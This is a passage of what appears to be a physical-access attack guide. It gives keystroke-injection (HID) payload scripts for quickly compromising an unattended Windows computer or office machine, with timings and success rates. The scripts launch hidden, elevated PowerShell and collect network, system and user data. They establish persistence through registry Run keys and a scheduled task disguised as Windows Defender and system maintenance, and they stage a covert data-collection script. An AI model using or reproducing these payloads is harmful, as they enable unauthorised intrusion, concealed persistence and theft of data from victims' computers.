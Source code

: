 ```txt
STRING New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "UpdateService" -Value "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File `"$env:APPDATA\service.ps1`"" -PropertyType String -Force
ENTER
DELAY 50

# Clean exit
STRING exit
ENTER
```

**Total Time:** 15 seconds
**Success Rate:** High (if target is away from computer)

#### **Scenario 2: The Office Breach**
**Objective:** Gain persistent access to corporate network
**Time Constraint:** 60 seconds (before security patrol)
**Technique:** Multi-stage rapid access with persistence

```txt
# Office breach rapid access
ATTACKMODE HID
DEFAULT_DELAY 50
DELAY 1000

# Stage 1: Initial access (10 seconds)
MOD r
DELAY 100
STRING powershell -WindowStyle Hidden -Command "Start-Process powershell -Verb RunAs -WindowStyle Hidden"
ENTER
DELAY 800

# Stage 2: Network reconnaissance (15 seconds)
STRING $netinfo = Get-NetIPAddress | ConvertTo-Json
ENTER
DELAY 50
STRING $sysinfo = Get-ComputerInfo | ConvertTo-Json
ENTER
DELAY 50
STRING $userinfo = Get-LocalUser | ConvertTo-Json
ENTER
DELAY 50

# Stage 3: Persistence establishment (20 seconds)
STRING New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsDefender" -Value "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File `"$env:APPDATA\defender.ps1`"" -PropertyType String -Force
ENTER
DELAY 100

STRING schtasks /create /tn "SystemMaintenance" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File `"$env:APPDATA\maintenance.ps1`"" /sc onlogon /ru System /f
ENTER
DELAY 200

# Stage 4: Data exfiltration setup (15 seconds)
STRING New-Item -Path "$env:APPDATA\Microsoft\Windows\Update" -ItemType Directory -Force
ENTER
DELAY 50
STRING Set-Content -Path "$env:APPDATA\Microsoft\Windows\Update\collect.ps1" -Value "while(`$true) { Get-Process | ConvertTo-Json | Out-File `"$env:APPDATA\Microsoft\Windows\Update\processes.json`" -Force; Start-Sleep 300 }"
ENTER
```
